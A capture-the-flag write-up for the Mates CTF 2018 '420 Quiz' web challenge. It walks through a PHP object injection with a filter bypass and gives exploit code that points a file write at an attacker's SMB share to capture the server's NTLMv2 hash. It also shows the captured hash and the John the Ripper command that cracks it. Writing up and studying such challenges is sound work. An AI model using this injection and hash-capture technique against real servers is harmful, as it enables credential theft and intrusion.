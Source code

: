 ```yaml
---
layout: post
title:  "Mates CTF 2018 - 420 Quiz"
date:   2018-06-18 13:37
categories: [MatesCTF2018]
tags: [Web]
author: jbz
---
```


This challenge was a cool real world scenario and we were the only team to solve it, so it's a good excuse to do a writeup.

The challenge question was just an URL, after you visit it you can signup with username and email and start a quiz.

Among the quiz questions there were these two interesting strings:
```
Relax, here is the hint: [admin]
Great, here is the second hint: [source_882c1aaf3.zip]
```

Visiting `/admin` presented us a login page with a comment which allowed us to understand that the authentication was using `LDAP`.

In the `source_882c1aaf3.zip` we found the source code of all non admin pages: [index.php](./index.php), [lib.php](./lib.php) and [quiz.php](./quiz.php).

After a quick analysis we discovered a PHP Object Injection in [quiz.php](./quiz.php):
```
    if(isset($_POST['answer'])){

        $answer = (string)$_POST['answer'];
        $ck = base64_decode($_COOKIE['userinfo']);
        if(preg_match('/O:[0-9]+:"/',$ck)){ //Filter we need to bypass
            header("Location: quiz.php");
            die();
        }
        $userinfo = unserialize($ck); //Object Injection

        if(intval($_COOKIE['quiz_no']) > 19){
            $quiz = 'Each user needs to answer only 20 quizs! Please wait for response from us.';
        } elseif(is_array($userinfo)) {
            $tmp = new SaveAnswer($userinfo['username'],$userinfo['email'],$answer.PHP_EOL);
            $quiz = make_quiz($_COOKIE['quiz_no'], True);
        } else {
            die("Cannot get userinfo");
        }

    } else {
        $quiz = make_quiz($_COOKIE['quiz_no']);
    }
```

As you can see there is a filter we need to bypass to exploit it, as they are trying to prevent unserialization of PHP objects:
```
preg_match('/O:[0-9]+:"/',$ck)
```

However this filter can be bypassed by replacing the object length with a signed number (i.e. `O:5:"Class":1:{s:5:"param";s:5:"value";}` becomes `O:+5:"Class":1:{s:5:"param";s:5:"value";}`)

Now it's just a matter of finding the right object to unserialize to do some magic.

In [lib.php](./lib.php) we had an handy class which was included in [quiz.php](./quiz.php):
```
    class SaveAnswer {
        private $folder = 'C:\\Windows\\Temp\\';
        private $filename;
        private $anscontent;

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }

        private function writeToFile($mode){
            $fullpath = $this->folder.$this->filename;

            if(!file_exists($fullpath.'.txt')){
                if(!preg_match('/^C:\x5cWindows\x5cTemp\x5c[a-zA-Z0-9\.\_]+$/i',$fullpath)){
                    return False;
                }
            }

            try{
                $file = fopen($fullpath.".txt", $mode);
                fwrite($file, $this->anscontent);
                fclose($file);
            } catch(Exception $e){
                return False;
            }
            return True;
        }

        public function __destruct()
        {
            $this->writeToFile("a+");
        }
    }
```

Cool, a class on a Windows Server which allowed us to write to a file and we could use the PHP Object Injection to instantiate this class with arbitrary parameters.

### LET'S DANCE SAMBA ###

Windows has a very cool feature, when you try to access a link like `\\ip\file` it is so nice to send the NTLM hash of the current user along with the request to try to login via Samba, so what if we try to exploit the PHP Object Injection and request a file via Samba from our server and log the NTLM hash?

To build the right serialized object we used the following PHP code:
```
<?php

class SaveAnswer {
        private $folder = '\\\\our_ip_here\\';
        private $filename = 'jbz';
        private $anscontent = 'jbz';

        public function __construct($username, $email, $ans)
        {
            $this->filename = $username.'_'.str_replace(['@','.',' '],'_',$email);
            $this->anscontent = (string)$ans;
        }
    }
  
$exp = new SaveAnswer('jbz','jbzteam@outlook.com','jbz');

echo base64_encode(str_replace("O:","O:+",serialize($exp)));
```

After sending a request to `quiz.php` with the generated payload in the `userinfo` cookie, we received this in our [Responder](https://github.com/SpiderLabs/Responder) server.


```
[SMB] NTLMv2-SSP Client     : 35.185.189.153
[SMB] NTLMv2-SSP Username   : QUIZSERVER0\r0cky0u
[SMB] NTLMv2-SSP Hash       : r0cky0u::QUIZSERVER0:1122334455667788:11726B453AFF097DBE050E3BB1386C7F:0101000000000000E0B28CD37405D401C3BA5E9BF5910DCE0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000000136927FA8611B32A37F4FD804F2D5B215872D9A9CC975CDDDE475B9AEBE2C000A001000000000000000000000000000000000000900200063006900660073002F0035002E0039002E003100310033002E003200310036000000000000000000
```

Now it was just a matter of launching [John The Ripper](https://github.com/magnumripper/JohnTheRipper) with the [rockyou wordlist](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) and wait the admin password to appear and use it to login in the admin panel.

```
$ john --wordlist=/tmp/rockyou.txt /tmp/SMB-NTLMv2-SSP-35.185.189.153.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
BENGIjake=06     (r0cky0u)
1g 0:00:00:09 DONE (2018-06-18 19:13) 0.1023g/s 1167Kp/s 1167Kc/s 1167KC/s BIMBONA..BANDSTER
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Congratulation the flag is: `matesctf{1df0d456589907360141240ec0d4fb71cd36f1fc}`